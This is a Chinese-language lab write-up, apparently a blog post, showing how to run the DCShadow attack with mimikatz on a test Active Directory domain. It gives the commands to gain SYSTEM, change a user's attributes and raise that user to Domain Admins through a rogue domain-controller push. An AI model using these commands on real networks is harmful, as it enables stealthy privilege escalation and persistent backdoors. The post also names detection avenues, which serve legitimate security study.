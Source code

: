 ```yaml
---
layout: post
title:  "使用mimikatz执行DCShadow攻击"
date:   2020-12-09
tags: june-1
color: rgb(135,206,235)
cover: '../assets/test.jpg'
subtitle: 'DCShadow创建临时域控'
---
```


# DCShadow
DCShadow是mimikatz中lsadump模块的新功能。它能模拟域控制器的行为（该攻击使用仅由DC使用的RPC的协议）来注入自己想要的数据，从而绕过包括SIEM在内的大多数常见的安全控件。它与DCSync攻击（已经存在于mimikatz的lsadump模块中）具有某些相似之处。
# 测试环境
DC:Windows server 2012
域：tony.local
![1](/assets/DCShadow/1.png)
域主机:Windows server 2016
已加域
![2](/assets/DCShadow/2.png)
## 涉及到的账户
### 域管理组账户
账户名:test
![3](/assets/DCShadow/3.png)
### 域普通账户
账户名:dc
![4](/assets/DCShadow/4.png)
# 实验流程-1
## 创建窗口A
登录域主机Windows server 2016本地账
![5](/assets/DCShadow/5.png)
### 右键管理员打开权限mimikatz
![6](/assets/DCShadow/6.png)
### 启用system权限
依次执行命令，确保当前的进程已system权限打开
{% highlight ruby %}
mimikatz # !+
[+] 'mimidrv' service already registered
[*] 'mimidrv' service already started

mimikatz # !processtoken
Token from process 0 to process 0
 * from 0 will take SYSTEM token
 * to 0 will take all 'cmd' and 'mimikatz' process
Token from 4/System
 * to 584/cmd.exe
 * to 3968/mimikatz.exe

mimikatz # token::whoami
 * Process Token : {0;000003e7} 1 D 1421627     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 * Thread Token  : no token
{% endhighlight %}
### 窗口Ａ
这个窗口暂时命名为:窗口A
![7](/assets/DCShadow/7.png)
## 开始执行DCShadow
### 查看描述
这里更改dc账户的描述，先查看dc的描述，由于我更改过，所以此时显示为
	“hi,hello”
![8](/assets/DCShadow/8.png)
### 执行更改
在刚才启动的窗口A中执行修改命令，来替换“hi,hello”
{% highlight ruby %}
mimikatz # lsadump::dcshadow /object:CN=dc,CN=Users,DC=tony,DC=local /attribute:description /value:"an attcker"
{% endhighlight %}
执行完后如下所示，等待通过RPC协议推送至域控
![9](/assets/DCShadow/9.png)
## 创建窗口B
保持这个窗口，不要关闭！并在管理员权限下打开另一个cmd窗口，这个窗口的权限必须是域管理组成员的权限，也就是Domain admin组成员。
### 使用PSEXEC
这里使用psexec来启用system窗口
![10](/assets/DCShadow/10.png)
### 运行mimikatz
在这个窗口下运行mimikatz,查看当前的权限，为域管理权限test
![11](/assets/DCShadow/11.png)
### 执行推送命令
执行推送命令，下图可以看到，执行完推送命令后，刚开始执行修改的窗口显示RPC server stopped，此时就已经修改完成
{% highlight ruby %}
mimikatz # lsadump::dcshadow /push
{% endhighlight %}
![12](/assets/DCShadow/12.png)
## 查看修改结果
修改成功
![13](/assets/DCShadow/13.png)
# 实验流程-2
将dc账户添加至管理员组(Domain admin)
## 查看描述
首先查看dc的信息
{% highlight ruby %}
PSC:\Users\Administrator> ([adsisearcher]"(&(objectCategory=user)(name=dc))").Findall().Properties
{% endhighlight %}
此时dc的组ID为513
![14](/assets/DCShadow/14.png)
可以参考下面的对应组ID，513为域用户，那想要将dc加入至域管理组，就需要将组ID更改为512
	512   Domain Admins
	513   Domain Users
	514   Domain Guests
	515   Domain Computers
	516   Domain Controllers
## 执行更改
在窗口A中执行
{% highlight ruby %}
mimikatz # lsadump::dcshadow /object:CN=dc,CN=Users,DC=tony,DC=local /attribute:primarygroupid /value:512
{% endhighlight %}
![15](/assets/DCShadow/15.png)
## 执行推送命令
推送至域控制器
![16](/assets/DCShadow/16.png)
## 查看修改结果
查看dc的所属组
![17](/assets/DCShadow/17.png)
![18](/assets/DCShadow/18.png)
# 可能会出现的实验失败情况
在实验过程中，出现推送服务失败的情况，短暂性的卡在如下图的界面，随后出现Performing Unregistration(取消注册)，这里呢，域控之间的通信是通过RPC服务来进行的，执行推送的过程也是需要RPC服务，域控本身RPC服务端口是开放的，但是测试主机的RPC服务端口未开放。所以，有两种解决方法：
1、	把域主机的防火墙关闭
2、	在域主机防火墙中添加策略，开放RPC服务的端口（具体就不再写了，可以自行百度）
![19](/assets/DCShadow/19.png)
![20](/assets/DCShadow/20.png)
6.	总结
DCShadow目前还是具有危害性的操作行为，该技术可以用于更改和删除复制以及其他关联的元数据，以阻止应急人员分析。攻击者还可以利用此技术执行SID历史记录注入和操纵AD对象（例如帐户，访问控制列表等）以建立持久性后门。
这不属于漏洞，因为是使用合法的已记录使用的协议：
	MS-ADTS
	MS-DRSR
这是一种利用后攻击（也称为控制攻击），因为它需要域管理员（或企业管理员）特权。
安全分析人员可以通过流量以及相关的安全日志来查找痕迹。
